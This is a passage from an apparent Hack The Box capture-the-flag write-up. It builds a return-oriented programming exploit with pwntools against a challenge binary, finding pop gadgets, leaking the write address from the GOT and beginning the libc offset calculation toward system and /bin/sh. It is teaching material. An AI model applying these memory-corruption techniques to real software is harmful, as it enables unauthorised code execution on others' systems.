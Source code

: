 ```zsh
ropper -f shooting_star --search pop
...
0x00000000004012cb: pop rdi; ret;
0x00000000004012c9: pop rsi; pop r15; ret;
...
```
There is no gadget which only does `pop rsi`, but there is `pop rsi; pop r15;`. This is okay, we can just fill `r15` with some garbage. Let's copy the address of the gadget (`4012c9`) and create a variable in our PWN tools exploit python script
```python
from pwn import *
...
pop_rsi_r15 = 0x4012c9 # pop rsi; pop r15; ret;
info("%#x pop_rsi_r15", pop_rsi_r15)
```
Now, we can start to build our payload. Here, the first three items in `offset[]` dictate the "parameters" which are passed to the `elf.plt.write` function (which is just the normal write method). 
```python
payload = flat({
	offset: [
		pop_rsi_r15, # instruction - first RSI, then r15
		elf.got.write, # ;leak function addr from GOT into the RSI register,
		0x0, # garbage for r15
		elf.plt.write, # write function
		elf.symbols.main # continue to main
	]
})

io.sendline('1')
io.sendlineafter(b'>>', payload)
io.recvuntil("May your wish come true!\n")
  

leaked_addr = io.recv()
got_write = unpack(leaked_addr[:6].ljust(8, b"\x00"))
info("%#x leaked got_write", got_write)
```
All being well, we should receive the leaked address of the `write` function from the GOT.
```zsh
python3 script.py
...
[*] 0x7f8b78be34d0 leaked got_write
...
```
### Step 3 - Calculating Offsets
We now know that `0x7f8b78be34d0` is the address of the `write` function in the GOT. Working locally, we can now calculate the base address of the `libc` library, as well as the address for the `system` function, and the `/bin/sh` string.

IMPORTANT NOTE: In cases such as for this HTB challenge, you are required to send the payload to a server, which might have a different version of `libc`, please see the section [[#Handling Different Libc Versions]] to deal with this.
